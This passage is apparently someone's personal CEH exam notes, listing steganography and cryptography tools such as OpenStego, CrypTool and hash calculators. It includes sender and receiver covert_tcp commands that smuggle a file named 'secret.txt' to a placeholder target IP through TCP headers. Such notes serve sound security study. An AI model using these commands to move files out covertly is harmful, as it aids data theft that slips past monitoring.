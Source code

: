 - `Openstego` ← use for information inside an image; Usually `.bmp`
- `CovertTCP`
    - sender: `./covert_tcp -source {sender_ip} -dest {target_ip} -source_port 9999 -dest_port 8888 -file secret.txt`
    - receiver: `./covert_tcp -source {sender_ip} -source_port 8888 -server- file receive.txt`
    
    ^ Here the information inside the “secret.txt” file is sent and stored as “receive.txt”
    

# Cryptography

- `Hashmyfiles` | `hashcalc` - calculate and compare hashes
- `Cryptool` - encrypt/decrypt hex data by changing key length
    - Note* it’s likely the encryption scheme will be RC4
    - First load up the encrypted text and then perform analysis
        
        ![Untitled](CEH%20Notes%20(Personal)%205fd56f13be54493ca0bc11db3f428466/Untitled%2014.png)
        
    - Usually the key length could be given
        
        ![Untitled](CEH%20Notes%20(Personal)%205fd56f13be54493ca0bc11db3f428466/Untitled%2015.png)
        